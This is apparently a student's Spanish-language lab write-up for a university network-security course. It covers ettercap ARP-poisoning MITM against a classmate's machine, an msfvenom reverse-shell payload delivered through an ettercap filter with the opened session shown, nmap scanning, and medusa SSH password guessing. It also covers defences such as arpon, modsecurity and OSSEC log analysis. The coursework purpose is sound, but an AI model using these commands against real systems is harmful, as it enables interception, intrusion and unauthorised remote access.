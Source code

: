 # PRACTICA 2 LSI

<details>
  <summary>a) Instale el ettercap y pruebe sus opciones básicas en línea de comando.</summary>

  ```console
  root@debian:/home/lsi# apt install ettercap-text-only
  ```
</details>
<details>
  <summary>b) Capture paquetería variada de su compañero de prácticas que incluya varias sesiones HTTP. Sobre esta paquetería (puede utilizar el wireshark para los siguientes subapartados)</summary>

  Previo a los apartados debemos hacer un MITM a la máquina de nuestro compañero :
  ```console
root@debian:/home/lsi# ettercap -T -q -i ens33 -M arp:remote //10.11.48.183/ //10.11.48.1/

ettercap 0.8.3.1 copyright 2001-2020 Ettercap Development Team

Listening on:
 ens33 -> 00:50:56:97:15:21
	  10.11.48.71/255.255.254.0
	  fe80::250:56ff:fe97:1521/64

SSL dissection needs a valid 'redir_command_on' script in the etter.conf file
Privileges dropped to EUID 65534 EGID 65534...

  34 plugins
  42 protocol dissectors
  57 ports monitored
28230 mac vendor fingerprint
1766 tcp OS fingerprint
2182 known services
Lua: no scripts were specified, not starting up!

Scanning for merged targets (2 hosts)...

* |==================================================>| 100.00 %

2 hosts added to the hosts list...

ARP poisoning victims:

 GROUP 1 : 10.11.48.183 00:50:56:97:EB:AC

 GROUP 2 : 10.11.48.1 DC:08:56:10:84:B9
Starting Unified sniffing...


Text only Interface activated...
Hit 'h' for inline help
  ```
Luego en otra terminal hacemos un tcpdump para guardar el trafico
```console
root@debian:/home/lsi# tcpdump -i ens33 -s 65535 -w compa.pcap
tcpdump: listening on ens33, link-type EN10MB (Ethernet), snapshot length 65535 bytes
916 packets captured
919 packets received by filter
0 packets dropped by kernel
```
Este archivo me lo paso a mi máquina real y lo leo desde Wireshark.

  -  Identifique los campos de cabecera de un paquete TCP
```console
     Frame 6: 66 bytes on wire (528 bits), 66 bytes captured (528 bits)
Ethernet II, Src: Alcatel-_10:84:b9 (dc:08:56:10:84:b9), Dst: VMware_97:15:21 (00:50:56:97:15:21)
Internet Protocol Version 4, Src: 10.20.38.93, Dst: 10.11.48.71
Transmission Control Protocol, Src Port: 56904, Dst Port: 22, Seq: 1, Ack: 45, Len: 0
    Source Port: 56904
    Destination Port: 22
    [Stream index: 0]
    [Conversation completeness: Incomplete (12)]
    [TCP Segment Len: 0]
    Sequence Number: 1    (relative sequence number)
    Sequence Number (raw): 2990874455
    [Next Sequence Number: 1    (relative sequence number)]
    Acknowledgment Number: 45    (relative ack number)
    Acknowledgment number (raw): 1338463224
    1000 .... = Header Length: 32 bytes (8)
    Flags: 0x010 (ACK)
    Window: 501
    [Calculated window size: 501]
    [Window size scaling factor: -1 (unknown)]
    Checksum: 0x6622 [unverified]
    [Checksum Status: Unverified]
    Urgent Pointer: 0
    Options: (12 bytes), No-Operation (NOP), No-Operation (NOP), Timestamps
    [Timestamps]
    [SEQ/ACK analysis]
```
     
  -  Filtre la captura para obtener el tráfico HTTP
  -  Obtenga los distintos “objetos” del tráfico HTTP (imágenes, pdfs, etc.)
  -  Visualice la paquetería TCP de una determinada sesión.

      Analyze > Follow > TCP Stream
  
  -  Sobre el total de la paquetería obtenga estadísticas del tráfico por protocolo como fuente de información para un análisis básico del tráfico.

     Statistics > Protocol Hierarchy
  
  -  Obtenga información del tráfico de las distintas “conversaciones” mantenidas.

     Statistics > Conversations
  
  -  Obtenga direcciones finales del tráfico de los distintos protocolos como mecanismo para determinar qué circula por nuestras redes.

     Statistics > Endpoints

</details>
<details>
	<summary>c) Obtenga la relación de las direcciones MAC de los equipos de su segmento.</summary>

```console
 root@debian:/home/lsi# nmap -sP 10.11.48.0/23 >> nmap.txt
```
En el archivo .txt podemos ver las direcciones MAC.

</details>

<details>
	<summary>d) Obtenga la relación de las direcciones IPv6 de su segmento.</summary>

 ```console
root@debian:/home/lsi#  ping6 -c2 -I ens33 ff02::1 >> ipv6.txt
root@debian:/home/lsi# ip -6 neigh >> neighbours.txt
 ```
</details>
<details>
	<summary>e)Obtenga el tráfico de entrada y salida legítimo de su interface de red ens33 e investigue los servicios, conexiones y protocolos involucrados.</summary>

```console
root@debian:/home/lsi# tcpdump -i ens33 -s 65535 -w my.pcap
```
</details>
<details>
	<summary>f) Mediante arpspoofing entre una máquina objetivo (víctima) y el router del laboratorio obtenga todas las URL HTTP visitadas por la víctima.</summary>

</details>
<details>
	<summary>g) Instale metasploit. Haga un ejecutable que incluya un Reverse TCP meterpreter payload para plataformas linux. Inclúyalo en un filtro ettercap y aplique toda su sabiduría en ingeniería social para que una víctima u objetivo lo ejecute.</summary>

1. Instalar metasploit
```console
  root@debian:/home/lsi# curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
```
2. Creamos el playload:
```console
root@debian:/home/lsi# msfvenom -p linux/x86/shell/reverse_tcp LHOST=10.11.48.71 LPORT=4444 -f elf > payload.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes

```
3. Lo metemos en la victima :
```console
root@debian:/home/lsi# nano ett.filter
root@debian:/home/lsi# etterfilter ett.filter -o ig.ef

etterfilter 0.8.3.1 copyright 2001-2020 Ettercap Development Team


 14 protocol tables loaded:
	DECODED DATA udp tcp esp gre icmp ipv6 ip arp wifi fddi tr eth 

 13 constants loaded:
	VRRP OSPF GRE UDP TCP ESP ICMP6 ICMP PPTP PPPOE IP6 IP ARP 

 Parsing source file 'ett.filter'  done.

 Unfolding the meta-tree  done.

 Converting labels to real offsets  done.

 Writing output to 'ig.ef'  done.

 -> Script encoded into 6 instructions.


root@debian:/home/lsi# echo 1 > /proc/sys/net/ipv4/ip_forward

root@debian:/home/lsi# ettercap -T -F ig.ef -i ens33 -q -M arp:remote //10.11.48.183/ //10.11.48.1/

ettercap 0.8.3.1 copyright 2001-2020 Ettercap Development Team

Content filters loaded from ig.ef...
Listening on:
 ens33 -> 00:50:56:97:15:21
	  10.11.48.71/255.255.254.0
	  fe80::250:56ff:fe97:1521/64

SSL dissection needs a valid 'redir_command_on' script in the etter.conf file
Privileges dropped to EUID 65534 EGID 65534...

  34 plugins
  42 protocol dissectors
  57 ports monitored
28230 mac vendor fingerprint
1766 tcp OS fingerprint
2182 known services
Lua: no scripts were specified, not starting up!

Scanning for merged targets (2 hosts)...

* |==================================================>| 100.00 %

2 hosts added to the hosts list...

ARP poisoning victims:

 GROUP 1 : 10.11.48.183 00:50:56:97:EB:AC

 GROUP 2 : 10.11.48.1 DC:08:56:10:84:B9
Starting Unified sniffing...


Text only Interface activated...
Hit 'h' for inline help

replaced href.

replaced href.

replaced href.

replaced href.

replaced href.

replaced href.

replaced href.

```
4. Reverse shell en el atacante :
```console
root@debian:/home/lsi# msfconsole
Metasploit tip: View all productivity tips with the tips command
                                                  

         .                                         .
 .

      dBBBBBBb  dBBBP dBBBBBBP dBBBBBb  .                       o
       '   dB'                     BBP
    dB'dB'dB' dBBP     dBP     dBP BB
   dB'dB'dB' dBP      dBP     dBP  BB
  dB'dB'dB' dBBBBP   dBP     dBBBBBBB

                                   dBBBBBP  dBBBBBb  dBP    dBBBBP dBP dBBBBBBP
          .                  .                  dB' dBP    dB'.BP
                             |       dBP    dBBBB' dBP    dB'.BP dBP    dBP
                           --o--    dBP    dBP    dBP    dB'.BP dBP    dBP
                             |     dBBBBP dBP    dBBBBP dBBBBP dBP    dBP

                                                                    .
                .
        o                  To boldly go where no
                            shell has gone before


       =[ metasploit v6.3.42-dev-                         ]
+ -- --=[ 2374 exploits - 1230 auxiliary - 414 post       ]
+ -- --=[ 1388 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.11.48.71
LHOST => 10.11.48.71
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.11.48.71:4444 
[*] Sending stage (36 bytes) to 10.11.48.183
ls
[*] Command shell session 1 opened (10.11.48.71:4444 -> 10.11.48.183:44364) at 2023-11-07 16:05:31 +0100

Descargas
Documentos
Escritorio
Imágenes
Música
Plantillas
Público
Vídeos
coreruleset-3.3.0
dict.txt
etter.filter
logsInicio
logssh
ossec-hids-3.7.0
ossec-hids-3.7.0.zip
payload.bin
echo h4ck3d > h4ck3d.txt
cat h4ck3d.txt
h4ck3d
exit
[*] 10.11.48.183 - Command shell session 1 closed.
msf6 exploit(multi/handler) > 

```
	
</details>
<details>
	<summary>h) Haga un MITM en IPv6 y visualice la paquetería.</summary>
</details>




<details>
	<summary>i) Pruebe alguna herramienta y técnica de detección del sniffing (preferiblemente arpon).</summary>

1. Vaciamos arp : 
```console
root@debian:/home/lsi# ip -s -s neigh flush all
10.11.49.104 dev ens33 lladdr 00:50:56:97:10:6b  used 486/546/486probes 0 STALE 
10.11.48.1 dev ens33 lladdr dc:08:56:10:84:b9  ref 1 used 3/0/3probes 1 REACHABLE 
10.11.48.183 dev ens33 lladdr 00:50:56:97:eb:ac  ref 1 used 17/17/17probes 1 REACHABLE 

*** Round 1, deleting 3 entries ***
10.11.48.1 dev ens33 lladdr dc:08:56:10:84:b9  ref 1 used 0/0/0probes 4 REACHABLE 

*** Round 2, deleting 1 entries ***
10.11.48.1 dev ens33 lladdr dc:08:56:10:84:b9  ref 1 used 0/0/0probes 4 REACHABLE 

*** Round 3, deleting 1 entries ***
10.11.48.1 dev ens33  ref 1 used 0/60/0probes 4 INCOMPLETE 

*** Round 4, deleting 1 entries ***
*** Flush is complete after 4 rounds ***

```
2. Usamos arpon para detectar :
```console
root@debian:/home/lsi# cat /etc/arpon.conf
#
# ArpON configuration file.
#
# See the arpon(8) man page for details.
#

#
# Static entries matching the eth0 network interface:
#
# First static entry:
#192.168.1.1     58:ac:78:10:b9:77
# Second static entry:
#192.168.1.3     d4:be:d9:fe:8b:45
# Third static entry:
#192.168.1.4     90:94:e4:bb:1c:10

#
# Static entries matching the eth1 network interface:
#
# First static entry:
#10.0.1.1        58:ac:78:88:1a:bb
# Second static entry:
#10.0.10.1       90:94:e4:7e:f4:59
root@debian:/home/lsi# arpon -d -i ens33 -H
root@debian:/home/lsi# Nov 07 16:18:49 [INFO] Background process is running (2491).
^C
root@debian:/home/lsi# ps -A | grep arpon
   2491 ?        00:00:00 arpon
root@debian:/home/lsi# kill 2491

```
</details>
<details>
	<summary>j) Pruebe distintas técnicas de host discovey, port scanning y OS fingerprinting sobre las máquinas del laboratorio de prácticas en IPv4. Realice alguna de las pruebas de port scanning sobre IPv6. ¿Coinciden los servicios prestados por un sistema con los de IPv4?.</summary>

1. Escaneamos en IPv4
```console
root@debian:/home/lsi# nmap -A 10.11.48.1/24 > nmap_full.txt
```
2. Escaneapos IPv6
```console
root@debian:/home/lsi# nmap -A -6 fe80::250:56ff:fe97:d0a2 > nmap_6.txt
```
</details>
<details>
	<summary>k) Obtenga información “en tiempo real” sobre las conexiones de su máquina, así como del ancho de banda consumido en cada una de ellas.</summary>

```console
root@debian:/home/lsi# iftop -i ens33
```
```console
root@debian:/home/lsi# vnstat -l -i ens33
```
</details>

<details>
	<summary>l) Monitorizamos nuestra infraestructura.:</summary>

- Instale prometheus y node_exporter y configúrelos para recopilar todo tipo de métricas de su máquina linux.

  
- Posteriormente instale grafana y agregue como fuente de datos las métricas de su equipo de prometheus.

  
- Importe vía grafana el dashboard 1860.

  
- En los ataques de los apartados m y n busque posibles alteraciones en las métricas visualizadas.

  
</details>

<details>
	<summary>m) PARA PLANTEAR DE FORMA TEÓRICA.: ¿Cómo podría hacer un DoS de tipo direc attack contra un equipo de la red de prácticas? ¿Y mediante un DoS de tipo reflective flooding attack?.</summary>

 
</details>

<details>
	<summary>n) Ataque un servidor apache instalado en algunas de las máquinas del laboratorio de prácticas para tratar de provocarle una DoS. Utilice herramientas DoS que trabajen a nivel de aplicación (capa 7). ¿Cómo podría proteger dicho servicio ante este tipo de ataque? ¿Y si se produjese desde fuera de su segmento de red? ¿Cómo podría tratar de saltarse dicha protección?</summary>

```console
root@debian:/home/lsi# apt install apache2
```
- ¿Cómo podría proteger dicho servicio ante este tipo de ataque?
  Con un firewall de app web como modsecurity.
- Y si se produjese desde fuera de su segmento de red?
- ¿Cómo podría tratar de saltarse dicha protección?
</details>

<details>
	<summary>o) Instale y configure modsecurity. Vuelva a proceder con el ataque del apartado anterior. ¿Qué acontece ahora?</summary>

```console
root@debian:/home/lsi# apt install libapache2-mod-security2
```

```console
root@debian:/home/lsi# a2enmod headers
Enabling module headers.
To activate the new configuration, you need to run:
  systemctl restart apache2
```
```console
root@debian:/home/lsi# cp /etc/modsecurity/modsecurity.conf-recommended modsecurity.conf
root@debian:/home/lsi# nano modsecurity.conf
 ###Change SecRuleEngine from DetectionOnly to On
root@debian:/home/lsi# cp modsecurity.conf /etc/modsecurity/modsecurity.conf
```

```console
root@debian:/home/lsi# apt install libapache2-mod-evasive
root@debian:/home/lsi# a2enmod evasive
root@debian:/home/lsi# cat /etc/apache2/mods-enabled/evasive.conf 
<IfModule mod_evasive20.c>
    #DOSHashTableSize    3097
    #DOSPageCount        2
    #DOSSiteCount        50
    #DOSPageInterval     1
    #DOSSiteInterval     1
    #DOSBlockingPeriod   10

    #DOSEmailNotify      you@yourdomain.com
    #DOSSystemCommand    "su - someuser -c '/sbin/... %s ...'"
    #DOSLogDir           "/var/log/mod_evasive"
</IfModule>

```
 
</details>
<details>
	<summary> p) Buscamos información.: </summary>

- Obtenga de forma pasiva el direccionamiento público IPv4 e IPv6 asignado a la Universidade da Coruña

- Obtenga información sobre el direccionamiento de los servidores DNS y MX de la Universidade da Coruña.

- ¿Puede hacer una transferencia de zona sobre los servidores DNS de la UDC?.

- En caso negativo, obtenga todos los nombres.dominio posibles de la UDC.

- ¿Qué gestor de contenidos se utiliza en www.usc.es?

</details>
<details>
	<summary> q) Trate de sacar un perfil de los principales sistemas que conviven en su red de prácticas, puertos accesibles, fingerprinting, etc.</summary>
 
```console
root@debian:/home/lsi# nmap -A 10.11.48.0/23 > nmap_full.txt
```
</details>
<details>
	<summary> r) Realice algún ataque de “password guessing” contra su servidor ssh y compruebe que el analizador de logs reporta las correspondientes alarmas.</summary>

```console
root@debian:/home/lsi# medusa -h 10.11.48.183 -u lsi -P pwd.text -M ssh
```

</details>

<details>
	<summary>s) Reportar alarmas está muy bien, pero no estaría mejor un sistema activo, en lugar de uno pasivo. Configure algún sistema activo, por ejemplo OSSEC, y pruebe su funcionamiento ante un “password guessing”.</summary>

```console
root@debian: /home/lsi# git clone https://github.com/ossec/ossec-hids.git
root@debian:/home/lsi/ossec-hids# ./install.sh
root@debian:/home/lsi/ossec-hids# /var/ossec/bin/ossec-control start
```

 
</details>
<details>
	<summary>t) Supongamos que una máquina ha sido comprometida y disponemos de un fichero con sus mensajes de log. Procese dicho fichero con OSSEC para tratar de localizar evidencias de lo acontecido (“post mortem”). Muestre las alertas detectadas con su grado de criticidad, así como un resumen de las mismas.</summary>

```console
root@debian:/home/lsi#  cat /var/log/auth.log | /var/ossec/bin/ossec-logtest -a
2023/11/09 17:06:05 ossec-testrule: INFO: Reading local decoder file.
2023/11/09 17:06:06 ossec-testrule: INFO: Started (pid: 1381).
** Alert 1699545966.1: mail  - syslog,fts,authentication_success
2023 Nov 09 17:06:06 debian->stdin
Rule: 10100 (level 4) -> 'First time user logged in.'
Src IP: 10.20.37.166
User: lsi
2023-11-09T17:01:52+01:00 debian sshd[504536]: Accepted password for lsi from 10.20.37.166 port 45824 ssh2

** Alert 1699545966.2: - pam,syslog,authentication_success,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5501 (level 3) -> 'Login session opened.'
2023-11-09T17:01:52+01:00 debian sshd[504536]: pam_unix(sshd:session): session opened for user lsi(uid=1000) by (uid=0)

** Alert 1699545966.3: - pam,syslog,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5503 (level 5) -> 'User login failed.'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:11.072216+01:00 debian sshd[2722]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=10.11.48.183  user=lsi

** Alert 1699545966.4: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:13.179170+01:00 debian sshd[2722]: Failed password for lsi from 10.11.48.183 port 60390 ssh2

** Alert 1699545966.5: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:14.754833+01:00 debian sshd[2722]: Failed password for lsi from 10.11.48.183 port 60390 ssh2

** Alert 1699545966.6: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:17.669016+01:00 debian sshd[2722]: Failed password for lsi from 10.11.48.183 port 60390 ssh2

** Alert 1699545966.7: mail  - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5758 (level 8) -> 'Maximum authentication attempts exceeded.'
Src IP: 10.11.48.183
Src Port: 60390
User: lsi
2023-11-09T17:02:17.984079+01:00 debian sshd[2722]: error: maximum authentication attempts exceeded for lsi from 10.11.48.183 port 60390 ssh2 [preauth]

** Alert 1699545966.8: - syslog,access_control,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 2501 (level 5) -> 'User authentication failure.'
2023-11-09T17:02:17.984416+01:00 debian sshd[2722]: Disconnecting authenticating user lsi 10.11.48.183 port 60390: Too many authentication failures [preauth]

** Alert 1699545966.9: mail  - syslog,access_control,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 2502 (level 10) -> 'User missed the password more than one time'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:17.984636+01:00 debian sshd[2722]: PAM 2 more authentication failures; logname= uid=0 euid=0 tty=ssh ruser= rhost=10.11.48.183  user=lsi

** Alert 1699545966.10: - pam,syslog,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5503 (level 5) -> 'User login failed.'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:18.075385+01:00 debian sshd[2724]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=10.11.48.183  user=lsi

** Alert 1699545966.11: - pam,syslog,authentication_success,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5501 (level 3) -> 'Login session opened.'
2023-11-09T17:02:20+01:00 debian su[504566]: pam_unix(su:session): session opened for user root(uid=0) by lsi(uid=1000)

** Alert 1699545966.12: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:20.473583+01:00 debian sshd[2724]: Failed password for lsi from 10.11.48.183 port 48854 ssh2

** Alert 1699545966.13: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:24.298381+01:00 debian sshd[2724]: Failed password for lsi from 10.11.48.183 port 48854 ssh2

** Alert 1699545966.14: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:27.213097+01:00 debian sshd[2724]: Failed password for lsi from 10.11.48.183 port 48854 ssh2

** Alert 1699545966.15: mail  - syslog,access_control,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 2502 (level 10) -> 'User missed the password more than one time'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:27.282521+01:00 debian sshd[2724]: PAM 2 more authentication failures; logname= uid=0 euid=0 tty=ssh ruser= rhost=10.11.48.183  user=lsi

** Alert 1699545966.16: - pam,syslog,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5503 (level 5) -> 'User login failed.'
Src IP: 10.11.48.71
User: lsi
2023-11-09T17:02:44+01:00 debian sshd[504569]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=10.11.48.71  user=lsi

** Alert 1699545966.17: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.71
User: lsi
2023-11-09T17:02:46+01:00 debian sshd[504569]: Failed password for lsi from 10.11.48.71 port 51340 ssh2

** Alert 1699545966.18: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.71
User: lsi
2023-11-09T17:02:48+01:00 debian sshd[504569]: Failed password for lsi from 10.11.48.71 port 51340 ssh2

** Alert 1699545966.19: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.71
User: lsi
2023-11-09T17:02:51+01:00 debian sshd[504569]: Failed password for lsi from 10.11.48.71 port 51340 ssh2

** Alert 1699545966.20: mail  - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5758 (level 8) -> 'Maximum authentication attempts exceeded.'
Src IP: 10.11.48.71
Src Port: 51340
User: lsi
2023-11-09T17:02:51+01:00 debian sshd[504569]: error: maximum authentication attempts exceeded for lsi from 10.11.48.71 port 51340 ssh2 [preauth]

** Alert 1699545966.21: - syslog,access_control,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 2501 (level 5) -> 'User authentication failure.'
2023-11-09T17:02:51+01:00 debian sshd[504569]: Disconnecting authenticating user lsi 10.11.48.71 port 51340: Too many authentication failures [preauth]

** Alert 1699545966.22: mail  - syslog,access_control,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 2502 (level 10) -> 'User missed the password more than one time'
Src IP: 10.11.48.71
User: lsi
2023-11-09T17:02:51+01:00 debian sshd[504569]: PAM 2 more authentication failures; logname= uid=0 euid=0 tty=ssh ruser= rhost=10.11.48.71  user=lsi

** Alert 1699545966.23: - pam,syslog,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5503 (level 5) -> 'User login failed.'
Src IP: 10.11.48.71
User: lsi
2023-11-09T17:02:52+01:00 debian sshd[504582]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=10.11.48.71  user=lsi

** Alert 1699545966.24: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.71
User: lsi
2023-11-09T17:02:54+01:00 debian sshd[504582]: Failed password for lsi from 10.11.48.71 port 40562 ssh2

** Alert 1699545966.25: - pam,syslog,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5502 (level 3) -> 'Login session closed.'
2023-11-09T17:03:19.932470+01:00 debian sshd[1173]: pam_unix(sshd:session): session closed for user lsi

** Alert 1699545966.26: - pam,syslog,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5502 (level 3) -> 'Login session closed.'
2023-11-09T17:03:19.938755+01:00 debian su[2520]: pam_unix(su:session): session closed for user root

** Alert 1699545966.27: mail  - syslog,errors,
2023 Nov 09 17:06:06 debian->stdin
Rule: 1002 (level 2) -> 'Unknown problem somewhere in the system.'
2023-11-09T17:03:19.973671+01:00 debian sshd[1173]: pam_systemd(sshd:session): Failed to release session: Interrupted system call

** Alert 1699545966.28: - syslog,sshd,authentication_success,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5715 (level 3) -> 'SSHD authentication success.'
Src IP: 10.20.36.34
User: lsi
2023-11-09T17:04:04.231046+01:00 debian sshd[1217]: Accepted password for lsi from 10.20.36.34 port 39014 ssh2

** Alert 1699545966.29: - pam,syslog,authentication_success,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5501 (level 3) -> 'Login session opened.'
2023-11-09T17:04:04.231988+01:00 debian sshd[1217]: pam_unix(sshd:session): session opened for user lsi(uid=1000) by (uid=0)

** Alert 1699545966.30: - pam,syslog,authentication_success,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5501 (level 3) -> 'Login session opened.'
2023-11-09T17:04:04.393876+01:00 debian (systemd): pam_unix(systemd-user:session): session opened for user lsi(uid=1000) by (uid=0)

** Alert 1699545966.31: - pam,syslog,authentication_success,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5501 (level 3) -> 'Login session opened.'
2023-11-09T17:04:22.120251+01:00 debian su[1375]: pam_unix(su:session): session opened for user root(uid=0) by lsi(uid=1000)

root@debian:/home/lsi# cat /var/log/auth.log | /var/ossec/bin/ossec-logtest -a |/var/ossec/bin/ossec-reportd
2023/11/09 17:07:01 ossec-reportd: INFO: Started (pid: 1385).
2023/11/09 17:07:01 ossec-testrule: INFO: Reading local decoder file.
2023/11/09 17:07:01 ossec-testrule: INFO: Started (pid: 1384).
2023/11/09 17:07:06 ossec-reportd: INFO: Report completed. Creating output...
 
Report completed. ==
------------------------------------------------
->Processed alerts: 31
->Post-filtering alerts: 31
->First alert: 2023 Nov 09 17:07:01
->Last alert: 2023 Nov 09 17:07:01
 
 
Top entries for 'Source ip':
------------------------------------------------
10.11.48.183                                                                  |11      |
10.11.48.71                                                                   |8       |
10.20.36.34                                                                   |1       |
10.20.37.166                                                                  |1       |
 
 
Top entries for 'Username':
------------------------------------------------
lsi                                                                           |21      |
 
 
Top entries for 'Level':
------------------------------------------------
Severity 5                                                                    |16      |
Severity 3                                                                    |8       |
Severity 10                                                                   |3       |
Severity 8                                                                    |2       |
Severity 2                                                                    |1       |
Severity 4                                                                    |1       |
 
 
Top entries for 'Group':
------------------------------------------------
syslog                                                                        |31      |
authentication_failed                                                         |21      |
sshd                                                                          |13      |
pam                                                                           |11      |
authentication_success                                                        |7       |
access_control                                                                |5       |
errors                                                                        |1       |
fts                                                                           |1       |
 
 
Top entries for 'Location':
------------------------------------------------
debian->stdin                                                                 |31      |
 
 
Top entries for 'Rule':
------------------------------------------------
5716 - SSHD authentication failed.                                            |10      |
5501 - Login session opened.                                                  |5       |
5503 - User login failed.                                                     |4       |
2502 - User missed the password more than one time                            |3       |
2501 - User authentication failure.                                           |2       |
5502 - Login session closed.                                                  |2       |
5758 - Maximum authentication attempts exceeded.                              |2       |
1002 - Unknown problem somewhere in the system.                               |1       |
10100 - First time user logged in.                                            |1       |
5715 - SSHD authentication success.                                           |1       |
 

```

</details>

Defensa : 
- Tirar abajo servidor web del compañero.
-  Levantar cosas para protegernos de sus ataques
-  slowlories
-  slowget
-  Visualizar las URL del compañero
-  fichero pcap : uno propio y uno del compañero.
-  Metasploit
-  ett.filter
-  Information gethering : direccionamiento, transferencia de zona.
-  Prometeus.  grafana : Dashboard.
-  OSSEC. (Bajar timeouts a 120s)
-  arpon
